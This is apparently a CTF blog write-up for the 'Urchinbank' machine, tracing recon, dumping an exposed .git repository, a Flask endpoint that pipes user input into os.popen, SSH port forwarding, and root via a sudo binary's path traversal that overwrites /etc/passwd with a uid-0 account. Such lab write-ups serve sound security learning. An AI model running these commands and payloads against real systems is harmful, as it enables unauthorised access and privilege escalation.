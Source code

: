 ```yaml
---
layout: post
title: "Urchinbank"
date: 2022-03-05
categories: [ctf,machine-hard]
image: /assets/img/log2_urchinsec.png
---
```

## Urchinbank Machine Writeup 
UrchinSec CTF MMXXII was organized by <a href="https://twitter.com/urchinsec_" target="_blank" rel="noopener">urchinsec</a> under <a href="https://twitter.com/tahaafarooq" target="_blank" rel="noopener">tahaafarooq</a>,<a href="https://twitter.com/trustie_rity" target="_blank" rel="noopener">trustie_rity</a>,<a href="https://twitter.com/nicl4ssic" target="_blank" rel="noopener">nicl4ssic</a>,<a href="https://twitter.com/0xlilith666" target="_blank" rel="noopener">0xlilith666c</a>,<a href="https://twitter.com/tzanonima" target="_blank" rel="noopener">tzanonima</a>
with prices of The XSS Rat Full House Bundle Course by <a href="https://twitter.com/theXSSrat" target="_blank" rel="noopener">theXSSrat</a>
and HackTheBox VIP Month Subscription

i avoided to be an organizer so i could play on this CTF after finishing a UE 

Other writeups apart from machine

[web_writeup](https://peterchain7.github.io/urchin/) by <a href="https://twitter.com/peterChain7" target="_blank" rel="noopener">peterchain</a>

[another_writeup](https://hackmd.io/@malwarepeter/r1-7i7f-q) by <a href="https://twitter.com/MalwarePeter" target="_blank" rel="noopener">MalwarePeter</a>

Well I <a href="https://twitter.com/blackninja233" target="_blank" rel="noopener">blackninja23</a> was only one who succeful root Urchinbank Machine from  <a href="https://ctf.urchinsec.org/" target="_blank" rel="noopener">urchinsec</a>. i decided to write a writeup about this good machine

Two flags were needed, one for user and other one for root

<!-- <img src='/assets/img/log_urchinsec.png' alt='user'>

<img src='/assets/img/log2_urchinsec.png' alt='root'> -->


# Enumeration
From given desctiption, it say we shall just give you the server's IP , the domain shall be urchinbank.com
Add it to /etc/hosts
```sudo echo "207.154.231.229 urchinbank.com" >>/etc/hosts```
Starting off with a nmap scan:
```nmap -sC -sV urchinbank.com```
```
Nmap scan report for urchinbank.com (207.154.231.229)
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:7d:16:eb:9a:06:96:85:73:56:07:68:b5:50:44:50 (RSA)
|   256 50:5c:5f:76:65:20:1a:01:75:07:9a:1b:da:06:ad:d2 (ECDSA)
|_  256 54:48:5c:ed:0b:4d:d6:83:21:a4:8d:be:ed:be:ca:d8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Urchin Bank &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.9.1
|_http-favicon: Unknown favicon MD5: A346545E38D60D97ECB98DE10C3CC715
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.8.10)
|_http-server-header: Werkzeug/2.0.3 Python/3.8.10
|_http-title: 404 Not Found
```
Discovering 4 ports at urchinbank.com which are 22,80,3306 and 8080
At first time, i decided to open port 80 after see a opensource called wordpress site from nmap result above
Opening port 80...
<img src='/assets/img/wordpress_host_discovery.png' alt='Web page discovering host'>

and we are given subdomain for this website. As seen from above
```Note : For our ibanking users , visit http://ibank.urchinbank.com/ ```
Add this to /etc/hosts.
You can performing some basics enum for wordpress but so far nothing.
Since this is wordpress,you can use wpscan and press-enum from <a href="https://twitter.com/KMchatta" target="_blank" rel="noopener">KMchatta</a> .You can read all about this tool from this link <a href="https://www.h4k-it.com/press-enum-wordpress-hacking-tool/" target="_blank" rel="noopener">press-enum</a>

# ibank enumeration
So we have ibank.urchinbank.com, opening it and having a message about Under development.
Well then bruteforce web page but so far nothing interest

# vhost enumeration
decided to bruteforce for vhost of urchinbank.com like we have ibank
Vhost in my gobuster seems react strange so i will use new feature fuzz in gobuster

<img src='/assets/img/vhost_enum_urchinbank.png' alt='gobuster vhost discovering'>
Discovering another vhost api.urchinbank.com

# api enumeration
Opening it

<img src='/assets/img/api_web_page.png' alt='api web page'>

We got a message that it is testing at port 8080.Remember that port 8080 from nmap??🤔🤔🤔

bruteforce api....

<img src='/assets/img/api_gobuster_urchinbank.png' alt='api gobuster bruteforce'>
Discovering .git directory which is used for development.From online it say that the .git folder contains all information that is necessary for the project and all information relating commits, remote repository address, etc. It also contains a log that stores the commit history. This log can help you to roll back to the desired version of the code.

Let me dump it, you can use wget or <a href="https://github.com/internetwache/GitTools" target="_blank" rel="noopener">Gittools-repo</a> but i will use Gittools-repo
```
git clone https://github.com/internetwache/GitTools #git clone Gittoolsrepo
cd GitTools 
cd Dumper
mkdir dump_git #make directory for the dump
cd dump_git
bash ../gitdumper.sh http://api.urchinbank.com/.git/ . #dump .git to dump_git directory
mkdir dump_files
bash ../../Extractor/extractor.sh ../dump_git/ ../dump_git/dump_files
```

<img src='/assets/img/extract_files_from_.git_urchinsec.png' alt='extract git files'>
From those command, you will have files and .git directory ready to be read
You can check .git by git but i will check those file that are extracted from .git using <a href="https://github.com/internetwache/GitTools" target="_blank" rel="noopener">Gittools-repo</a> 

# Source code review
From extracted, found 2 app.py which mean that it was edited interesting🙂🙂🙂
Analyze 2 of them, 
first, found that real_pin and real_acc were edited to '' from 9313 and 0112003414459
```  
def post(self):
        real_pin = '9313'  # set the pin of account here
        real_acc = '0112003414459'  # set the account to send here
```
second, found that interesting piece of code
```
class UploadFile(Resource):
    def post(self):
        try:
            parser = reqparse.RequestParser()
            parser.add_argument(
                'file', type=str, help='File Required to be downloaded')
            args = parser.parse_args()

            _fileLink = args['file']
            if _fileLink != "":
                cmd = str(_fileLink)
                msg = os.popen(f'{cmd}').read()

            return {'StatusCode': 200, 'Message': str(msg)}
```
this piece of code leading to command injection🥲🥲🥲🥲.
I can assure it was not easier to spot it at first
let me show it how i test that piece of code and see if it bring to command injection

<img src='/assets/img/proof_of_concept_urchinsec.png' alt='proof of concept'>

Getting shell then we start privesc

# Priviledge escalation
Finally we got user.txt

<img src='/assets/img/fred.rick_urchinsec.png' alt='got user'>
You can use basic knowledge or Automated tools like <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS" target="_blank" rel="noopener">linpeas-repo</a> but i will give short descripion

Enumerate network ports

<img src='/assets/img/network_urchinsec.png' alt='network privsec'>
Discovering port 8000 with localhost then we need to do ssh portfowarding with this command

```ssh -L 8000:127.0.0.1:8000 fred.rick@207.154.231.229 -i id_rsa```

Going to http://127.0.0.1:8000/ in our machine, found interesting web page in which maybe an attacker put payload inside to another user.

<img src='/assets/img/127.0.0.1:8000_urchinsec.png' alt='another user'>

You put command and execute as jamie.hyle
Getting shell then we start privesc maybe to root or user again

# Priviledge escalation
Performing sudo -l....
```
jamie.hyle@urchinbank:~$ sudo -l
Matching Defaults entries for jamie.hyle on urchinbank:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jamie.hyle may run the following commands on urchinbank:
    (ALL : NOPASSWD) NOPASSWD: /usr/bin/notepin
```
Searching it online but no luck. Well decided to do some observation to binary notepin.
let us run it first
```
jamie.hyle@urchinbank:~$ sudo /usr/bin/notepin
NOTE PIN v1.3.5
[1] Write Note
[2] Read Note
[3] Quit

>>
```
Well then we can overwrite something.then i will overwrite /etc/passwd 
Create your password 
```
openssl passwd -1 <YOURPASSWORD>
```
then edit /etc/passwd
```
jamie.hyle@urchinbank:~$ sudo /usr/bin/notepin
NOTE PIN v1.3.5
[1] Write Note
[2] Read Note
[3] Quit

>>
1

Enter File Name To Save Note To : 
../../etc/passwd

Enter Data To Write Into File : 
hacker:<YOURHASHPASSWORD>:0:0:root:/root:/bin/bash
Done
jamie.hyle@urchinbank:~$
```
login as hacker and you are root

having root.txt

Game done

































